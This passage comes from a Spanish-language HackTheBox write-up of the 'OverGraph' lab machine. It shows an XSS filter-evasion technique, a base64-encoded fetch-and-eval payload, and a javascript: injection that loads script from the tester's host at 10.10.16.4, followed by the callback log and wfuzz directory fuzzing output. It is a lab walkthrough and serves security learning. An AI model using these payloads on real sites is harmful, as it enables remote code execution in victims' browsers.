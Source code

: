 Y representando lo mismo pero en base64

<img src="/writeups/assets/img/OverGraph-htb/5.png" alt="">

En este [artículo](https://aayla-secura.github.io/xss-fetch-evasion) explican como es posible ejecutar código en Javascript abusando de esta evasión

Introduzco el siguiente payload en base64, al igual que antes

```null
echo -n "fetch('http://10.10.16.4/pwned.js').then(r=>r.text().then(eval))" | base64 -w 0 | xclip -sel clip
```

Recibo la petición a mi servicio HTTP

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.4 - - [18/Feb/2023 10:27:10] code 404, message File not found
10.10.16.4 - - [18/Feb/2023 10:27:10] "GET /pwned.js HTTP/1.1" 404 -
```

Agrego contenido al ```pwned.js```, pero al cargarlo no lo interpreta

```null
alert("XSS")
```

Otra forma de representar lo mismo sería así:

```null
javascript:document.body.innerHTML='<script src="http://10.10.16.4/pwned.js"></script>'
```

Y para evitar problemas, todo en URLencode, desde javascript: hacia delante.

<img src="/writeups/assets/img/OverGraph-htb/6.png" alt="">

Aplico fuzzing para descubir rutas y subdominios

```null
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://graph.htb/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://graph.htb/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================
000000277:   301        9 L      28 W       297 Ch      "assets"                              
000045226:   200        215 L    551 W      6384 Ch     "http://graph.htb/"                   
000095510:   200        268 L    602 W      16502 Ch    "server-status"                       
```